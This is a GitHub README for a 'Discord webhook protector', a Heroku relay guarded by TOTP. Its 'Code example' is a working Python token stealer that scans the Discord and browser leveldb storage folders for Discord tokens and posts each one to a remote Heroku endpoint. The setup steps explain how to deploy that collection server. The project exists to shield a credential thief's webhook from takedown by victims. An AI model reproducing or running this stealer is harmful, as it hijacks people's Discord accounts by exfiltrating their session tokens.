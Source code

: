<p align="center">
<img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square" </a>
</p>
</p>
<p align="center">
<a href="https://github.com/Rdimo/Discord-Webhook-Protector#setting-up-the-api">Setup the api</a> ⋮
<a href="https://cheataway.com">Discord</a>
</p>

#### Discord-Webhook-Protector was made by
Love ❌ code ✅

---

### 🔰・Features
```
> Easy to setup
> Webhook protected by totp so webhook can't be spammed or deleted even if they http debug!
> Accepting only post requests
> near to impossible to delete webhook (still possible to spam, but very hard)
```

### 🎈・Code example
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Setting up the api
1. Create an account on [Heroku.com](https://heroku.com)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. open api.js and put in your webhook at the top (line 5)
4. open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Upcoming features
* File upload support (prob not in a while tho since im too lazy)
